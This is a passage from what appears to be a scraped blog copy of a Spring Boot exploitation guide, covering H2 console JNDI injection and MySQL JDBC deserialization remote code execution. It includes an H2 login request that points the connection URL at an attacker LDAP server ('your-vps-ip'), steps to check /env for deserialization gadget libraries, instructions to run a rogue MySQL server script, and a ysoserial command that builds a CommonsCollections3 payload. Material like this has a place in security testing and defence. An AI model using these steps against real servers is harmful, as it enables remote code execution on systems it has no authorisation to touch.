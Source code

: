 Content-Type: application/x-www-form-urlencoded

Referer: <http://www.example.com/h2-console/login.jsp?jsessionid=xxxxxx>

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url=ldap://your-vps-ip:1389/JNDIObject&user=&password=

 |

[](https://www.blogger.com/#)

#### Vulnerability Analysis:

- [Spring Boot + H2 Database JNDI Notes](<https://www.baeldung.com/spring-boot-h2-database>)

[](https://www.blogger.com/#)Vulnerable environment:

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

Normal access:

```
http://127.0.0.1:9096/h2-console _
```

### MySQL Jdbc Deserialization RCE

**[](https://www.blogger.com/#)Conditions of use:**

- You can POST requests to the /envinterface set properties

- You can POST request the /refreshinterface refresh the configuration ( spring-boot-starter-actuatordependency exists)

- A MySQL-connector-javadependency

- The target can request the attacker's server (the request can go out of the Internet)

**[](https://www.blogger.com/#)How to use:**\
[](https://www.blogger.com/#)**Step 1:** View environment dependencies

- GET request /envor /actuator/env, search for mysql-connector-java keywords , and record its version number (5.x or 8.x);

- Search and observe whether there are common deserialization gadget dependencies in environment variables, such as commons-collections, Jdk7u21, Jdk8u20etc.;

- Search for the spring.datasource.urlkeyword and record its value value to facilitate subsequent recovery of its normal JDBC url value.

**[](https://www.blogger.com/#)Step 2:** Set up a malicious rogue MySQL server

Run the [spring-boot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) script on a server you control and use [ysoserial](https://github.com/frohoff/ysoserial) to customize the commands to be executed:

```
java -jar ysoserial.jar CommonsCollections3 calc > payload.ser
```
